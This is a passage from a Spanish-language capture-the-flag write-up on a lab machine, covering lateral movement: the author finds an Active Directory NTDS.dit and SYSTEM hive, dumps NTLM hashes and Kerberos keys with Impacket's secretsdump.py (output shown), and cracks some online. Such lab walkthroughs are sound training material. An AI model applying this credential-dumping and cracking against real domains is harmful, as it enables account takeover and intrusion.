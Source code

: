 ### Movimiento Lateral

* * *

En el directorio `/home` vemos las carpetas personales de los usuarios **tomcat** y **atanas**. La flag de bajos privilegios se encuentra en el directorio de atanas pero no tenemos permiso para leerla. En el directorio de tomcat observamos dos archivos interesantes en la ruta `/to_archive/pentest_data`

```bash
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -la
total 28312
drwxr-xr-x 2 tomcat tomcat     4096 Jul 21  2017 .
drwxr-xr-x 3 tomcat tomcat     4096 Jul 21  2017 ..
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

El archivo NTDS. dit es una base de datos que almacena datos de Active Directory, incluida información sobre objetos de usuario, grupos y pertenencia a grupos. Incluye los NTLM hashes de las contraseñas para todos los usuarios y computadores. En este punto nos descargamos los archivos localizados para extraer los hashes con la herramienta `secretsdump.py` de la suite de Impacket

```bash
❯ secretsdump.py -ntds ntds.dit -system ntds.bin LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
.
.
.
```

Conseguimos extraer los hashes de varios usuarios. Con la ayuda de la página [CrackStation](https://crackstation.net/) logramos conseguir en texto claro un par de contraseñas
